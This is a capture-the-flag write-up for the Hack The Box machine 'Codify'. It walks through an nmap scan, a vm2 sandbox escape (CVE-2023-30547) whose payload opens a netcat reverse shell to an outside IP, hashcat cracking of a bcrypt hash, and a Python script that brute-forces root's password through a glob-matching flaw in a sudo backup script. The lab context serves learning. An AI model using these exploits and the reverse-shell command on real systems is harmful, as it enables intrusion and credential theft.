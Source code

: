 # Codify Write-up

<img src="https://labs.hackthebox.com/storage/avatars/57b977ea744af01a5454c8643a850e59.png" width="200" height="200">

## Nmap

`nmap -sC -sV codify.htb`

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
    |_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
    80/tcp   open  http    Apache httpd 2.4.52
    |_http-title: Codify
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    3000/tcp open  http    Node.js Express framework
    |_http-title: Codify
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## CVE-2023-30547

POC: https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

    const { VM } = require("vm2");
    const vm = new VM();
    
    const code = `
      const err = new Error();
      err.name = {
        toString: new Proxy(() => "", {
          apply(target, thiz, args) {
            const process = args.constructor.constructor("return process")();
            throw process.mainModule.require("child_process").execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.67 4242 >/tmp/f').toString();
          },
        }),
      };
      try {
        err.stack;
      } catch (stdout) {
        stdout;
      }
    `;
    
    console.log(vm.run(code));
  
![image](https://github.com/zer00d4y/writeups/assets/128820441/443eefcf-2b11-4b7a-bd60-95a2b5aa373e)

![image](https://github.com/zer00d4y/writeups/assets/128820441/9ed111c3-69b0-4d17-9e22-034c5ff6c86e)

### Hashcat 

`echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash`

`hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt`  

    $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:********
                                                              
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
    Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
    Time.Started.....: Fri Mar 22 06:21:49 2024 (1 min, 11 secs)
    Time.Estimated...: Fri Mar 22 06:23:00 2024 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:       19 H/s (3.15ms) @ Accel:4 Loops:16 Thr:1 Vec:1
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 1360/14344385 (0.01%)
    Rejected.........: 0/1360 (0.00%)
    Restore.Point....: 1344/14344385 (0.01%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
    Candidate.Engine.: Device Generator
    Candidates.#1....: teacher -> 080808
    Hardware.Mon.#1..: Util: 93%

### SSH

`ssh joshua@10.10.11.239`

Connect and get the user flag!

![image](https://github.com/zer00d4y/writeups/assets/128820441/0a5db951-fed0-4243-867c-519755b10e73)

## Privilege Escalation

![image](https://github.com/zer00d4y/writeups/assets/128820441/89d32cf5-2f31-4695-975c-c9e048207134)

`mysql-backup.sh` 

    #!/bin/bash
    DB_USER="root"
    DB_PASS=$(/usr/bin/cat /root/.creds)
    BACKUP_DIR="/var/backups/mysql"
    
    read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
    /usr/bin/echo
    
    if [[ $DB_PASS == $USER_PASS ]]; then
            /usr/bin/echo "Password confirmed!"
    else
            /usr/bin/echo "Password confirmation failed!"
            exit 1
    fi
    
    /usr/bin/mkdir -p "$BACKUP_DIR"
    
    databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")
    
    for db in $databases; do
        /usr/bin/echo "Backing up database: $db"
        /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
    done
    
    /usr/bin/echo "All databases backed up successfully!"
    /usr/bin/echo "Changing the permissions"
    /usr/bin/chown root:sys-adm "$BACKUP_DIR"
    /usr/bin/chmod 774 -R "$BACKUP_DIR"
    /usr/bin/echo 'Done!'

Brute.py

    import string
    import subprocess
    
    def check_password(p):
    	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
    	result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    	return "Password confirmed!" in result.stdout
    
    charset = string.ascii_letters + string.digits
    password = ""
    is_password_found = False
    
    while not is_password_found:
    	for char in charset:
    		if check_password(password + char):
    			password += char
    			print(password)
    			break
    	else:
    		is_password_found = True

![image](https://github.com/zer00d4y/writeups/assets/128820441/cf9a3267-6676-4ccf-bff8-b8a01984631f)

`su root` 

`cat /root/root.txt`

![image](https://github.com/zer00d4y/writeups/assets/128820441/013efa41-3d7d-4c8f-a668-0c909b5cf9cd)



